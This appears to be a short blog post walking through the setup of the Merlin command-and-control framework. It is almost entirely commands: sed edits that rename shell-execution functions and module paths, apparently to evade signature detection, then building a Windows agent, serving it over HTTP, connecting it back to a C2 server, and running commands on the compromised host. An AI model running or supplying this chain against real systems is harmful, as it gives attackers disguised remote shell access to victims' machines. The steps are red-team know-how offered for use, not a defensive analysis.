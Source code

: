 ```yaml
---
layout: post
---
```

To use Merlin as a Command & Control server, which is written in golang, we should take the following steps:

{% highlight ruby %}
go version	-> version should be 1.13 or higher
apt update && sudo apt install golang-go
git clone https://github.com/Ne0nd0g/merlin && cd merlin

find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/ExecuteShell/MiniMice/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/executeShell/miniMice/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g'
sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g' go.mod

make agent-windows DIR="./output"

go run cmd/merlinserver/main.go -i 0.0.0.0 -p 8443 -psk strongPassphraseWhaterYouWant

cd /mnt/tools/merlin/output/
python -m SimpleHTTPServer 80

merlinAgent-Windows-x64.exe -url https://172.16.216.135:8443 -psk strongPassphraseWhaterYouWant

interact a0c86f61-4f21-4e63-9856-b73d7b8fbf3a

help
ls
info
cmd whoami

{% endhighlight %}

{% include youtubePlayer.html id="4J-6mUb4ORQ" %}
